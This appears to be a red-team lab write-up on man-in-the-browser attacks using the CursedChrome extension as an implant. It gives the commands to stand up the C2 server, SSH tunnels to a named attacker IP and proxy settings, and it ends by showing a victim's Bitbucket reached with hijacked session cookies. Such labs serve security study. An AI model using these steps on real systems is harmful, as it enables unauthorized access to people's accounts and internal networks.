

# Man-in-the-Browser via Chrome Extension

## Overview

This is a quick lab to familiarize with a [CursedChrome](https://github.com/mandatoryprogrammer/CursedChrome) Chrome extension, which at a high level works in the following way:

1. CursedChrome extension is added to Chrome on a compromised computer;
2. Compromised computer's Chrome connects back to an attacker controlled CursedChrome C2 server. Comromised computer's Chrome now acts as a proxy into the compromised network;
3. Attacker can now proxy web requests through the compromised computer's Chrome and reach any internal web application that the compromised user/computer can access.

The beauty of this technique is in the fact that the attacker's web requests leverage cookies stored in the compromised Chrome browser, which means that if a compromised user is logged on to some web application the attacker is interested in, the attacker no longer requires to authenticate to that application in order to access it as their HTTP request will re-use the existing cookies from the compromised Chrome and will be let in without being asked to provide credentials.

The extension [author](https://github.com/mandatoryprogrammer) visualizes the whole process like so:

.png>)

## Environment

Below is a list of systems involved in this lab:

* 18.130.61.92 - CursedChrome C2 server;
* 10.0.0.7 - attacker computer `WS01`;
* x.x.x.x - compromised computer in some other network outside the `WS01` computer's network.

## Setup

### CursedChrome C2 Server

On the CursedChrome C2 server, pull the CusedChrome git repo, enter it and spin up the CursedChrome server using `docker-compose` with the following commands:

```bash
git clone https://github.com/mandatoryprogrammer/CursedChrome.git /opt/
cd /opt/CursedChrome
docker-compose up -d redis db
docker-compose up cursedchrome
```

After running the above `docker-compose`, you should see the below screen:

.png>)

Save the username and password for later as these will be required when connecting to the CursedChrome C2 web console:

```
USERNAME: admin
PASSWORD: 9iax0t2gpbd9skqf0p2z8ry53k9s144x
```

Additionally, note that the CursedChrome's web console is listening on `127.0.0.1:8118` and HTTP proxy on `127.0.0.1:8080` - we will need these later, when setting up local SSH tunnels, so that we can access these services from the attacking machine `WS01`.

### Compromised Computer with CursedChrome Implant

On a compromised computer, we need to install the CursedChrome implant.&#x20;

It's up to you how you will do it, but for the demo purposes, I simply enabled `Developer mode` and clicked `Load unpacked` and pointed it to the `.\extension` folder from the CursedChrome's repo. The extension is now installed:

.png>)

### Attacker

On the attacker machine, let's set up a couple of local SSH tunnels.

#### SSH Tunnel for CursedChrome Web Console

In order to access the CursedChrome's C2 web console via `http://localhost:1111`, we need the following SSH tunnel to the CursedChrome's C2 server:

```
ssh ubuntu@18.130.61.92 -L1111:localhost:8118 -f -N
```

#### SSH Tunnel for CursedChrome HTTP Proxy

In order to proxy our HTTP traffic through the CursedChrome's C2 web proxy, using FoxyProxy, we need the following tunnel:

```
ssh ubuntu@18.130.61.92 -L2222:localhost:8080 -f -N
```

Once we have the tunnels setup, we can try accesing the web console by navigating to `http://localhost:1111` and if everything works, you should see a login panel:

.png>)

Enter the admin credentials you got after setting up the CursedChrome server using `docker-compose` and you should now be logged on to the panel, where you will see a bot / compromised computer's CursedChrome extension calling back to the CursedChrome C2:

.png>)

Note the username and password of the bot as you will need it when configuring FoxyProxy.

#### Installing CursedChrome CA Certificate to FireFox


**Important**\
****Do not forget to export the Proxy CA certificate (see the big download button below the connected bots panel) and install it to FireFox as this is required for the technique to work.




#### Configuring FireFox Extension FoxyProxy

Now we're ready to setup the FoxyProxy (FireFox extension).&#x20;

Proxy IP and port should be `127.0.0.1:2222` (remember, we set up a local SSH tunnel for this earlier) and username/password should be those seen in the "Connected bots" panel in the CursedChrome's C2 web console:

.png>)

Configure FireFox to use the FoxyProxy you just set up and you are ready to access some internal web application on a compromised computer's network, that otherwise would not be accessible to you.

## Moment of Truth

With all the setup completed, the below image shows how I'm able to access a Bitbucket on behalf of a compromised user `Mantvydas` without knowing their credentials on a network that is outside of the attacking VM `WS01`:

.png>)

## References


